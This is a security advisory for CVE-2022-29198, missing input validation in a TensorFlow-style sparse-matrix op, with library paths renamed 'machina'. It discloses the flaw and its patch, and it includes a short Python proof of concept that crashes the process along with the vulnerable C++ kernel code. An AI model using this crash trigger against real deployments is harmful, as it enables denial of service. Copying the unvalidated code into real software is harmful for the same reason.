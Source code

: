 ## TFSA-2022-068: Missing validation causes denial of service via `SparseTensorToCSRSparseMatrix`

### CVE Number
CVE-2022-29198

### Impact
The implementation of [`tf.raw_ops.SparseTensorToCSRSparseMatrix`](https://github.com/machina/machina/blob/f3b9bf4c3c0597563b289c0512e98d4ce81f886e/machina/core/kernels/sparse/sparse_tensor_to_csr_sparse_matrix_op.cc#L65-L119) does not fully validate the input arguments. This results in a `CHECK`-failure which can be used to trigger a denial of service attack:

```python
import machina as tf

indices = tf.constant(53, shape=[3], dtype=tf.int64)
values = tf.constant(0.554979503, shape=[218650], dtype=tf.float32)
dense_shape = tf.constant(53, shape=[3], dtype=tf.int64)

tf.raw_ops.SparseTensorToCSRSparseMatrix(
  indices=indices,
  values=values,
  dense_shape=dense_shape)
```

The code assumes `dense_shape` is a vector and `indices` is a matrix (as part of requirements for sparse tensors) but there is no validation for this:

```cc
    const Tensor& indices = ctx->input(0);
    const Tensor& values = ctx->input(1);
    const Tensor& dense_shape = ctx->input(2);
    const int rank = dense_shape.NumElements();
    OP_REQUIRES(ctx, rank == 2 || rank == 3,
                errors::InvalidArgument("SparseTensor must have rank 2 or 3; ",
                                        "but indices has rank: ", rank));
    auto dense_shape_vec = dense_shape.vec<int64_t>();
    // ...
    OP_REQUIRES_OK(
        ctx,
        coo_to_csr(batch_size, num_rows, indices.template matrix<int64_t>(),
                   batch_ptr.vec<int32>(), csr_row_ptr.vec<int32>(),
                   csr_col_ind.vec<int32>()));
```

### Patches
We have patched the issue in GitHub commit [ea50a40e84f6bff15a0912728e35b657548cef11](https://github.com/machina/machina/commit/ea50a40e84f6bff15a0912728e35b657548cef11).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Neophytos Christou from Secure Systems Lab at Brown University.
